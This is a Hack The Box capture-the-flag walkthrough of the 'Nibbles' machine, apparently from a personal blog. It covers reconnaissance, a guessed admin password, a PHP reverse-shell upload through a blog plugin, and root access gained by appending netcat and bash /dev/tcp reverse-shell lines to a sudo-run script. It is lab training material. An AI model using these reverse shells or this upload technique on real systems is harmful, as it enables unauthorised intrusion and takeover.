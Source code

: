 ```yaml
---
layout: post
title: "HTB-Nibbles"
categories: HTB-Walkthrough
---
```


![nibbles](/assets/img/nibbles.png)

Nmap first...Im not sure why, but my first scan only picked up port 22, I tried again and got a better result...

`nmap -sV -Pn 10.10.10.75 |tee -a nib.txt`

Still, there's only 2 ports that seem to be open...

```

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


Browsing to http://10.10.10.75 we see "Hello World" message, but the page is empty, looks like it's in development.
Checking out the source we get a nice surprise....

```

<!-- /nibbleblog/ directory. Nothing interesting here! -->


```

OK, so taking the hint, we give it a go...It takes us to a pretty empty blog page.

Lets crank up gobuster, and see what we can find. 

`gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t50 -x .php,.txt,.html`

```

/sitemap.php (Status: 200)
/index.php (Status: 200)
/content (Status: 301)
/themes (Status: 301)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)

```

Instantly our eye is drawn to `/admin.php` 
Its a login page.

Since its an admin login, i decided to try admin/admin...it failed...
Sticking with admin username for now, I tried 'nibbles' as the password since it's the name of the box...and it worked!!!


having a poke about, I find we can possibly upload an image file (containing a reverse-shell) to the server...

```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
```

We can upload pentestmonkey's [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) which I've saved as evil.php
Just modify the contents to reflect our IP and preferred port for the connection...

Once uploaded, we can execute the shell by browsing to the folder where the server stores it.

`/content/private/plugins/my_image/evil.php`

.....eh? It didn't work....

Sometimes a server will change the name of a file for storage...perhaps because its hardcoded in other php files for convenience.

I try...
```
/content/private/plugins/my_image/image.php
```

and catch the shell on 6969.

```

listening on [any] 6969 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.75] 56026
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:44:47 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ whoami
nibbler
$

```

Go to the /home/nibbler directory, and find user.txt

```

$ cat user.txt
b0xxxxxxxxxxxxxxxxxxxxxxxxxxxxd8

```

Looking at the directory contents, we find something interesting...

```

$ ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 10  2017 user.txt


```

One of the first commands I run when trying to escalate privileges (besides `sudo su`),
is `sudo -l`.
It sometimes lists the commands an user can execute with sudo without having to enter a password...

```

$ sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


```

Looks like we have to unzip `personal.zip`

```

$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ ls
personal
personal.zip
user.txt
$ 

```

We find `monitor.sh` inside the unzipped folder...

```

$ cd personal
$ l
/bin/sh: 16: l: not found
$ ls
stuff
$ cd stuff
$ ls
monitor.sh
$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
$ 


```

Looks like anyone can execute monitor.sh, but we know we can execute it as root with the sudo command.
We can also write to the file, 

```

$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 999 >/tmp/f" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

And we catch the root shell on 999

```

nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.75] 37444
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
b6xxxxxxxxxxxxxxxxxxxxxxxxxxxx8c
# whoami
root
# 
 
```

alternatively we could just replace the file

```


mv monitor.sh monitor-old.sh

cat > monitor.sh << _EOF
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.20/999 0>&1;
_EOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ sudo /home/nibbler/personal/stuff/monitor.sh


```


again catching the root shell on 999.



:)


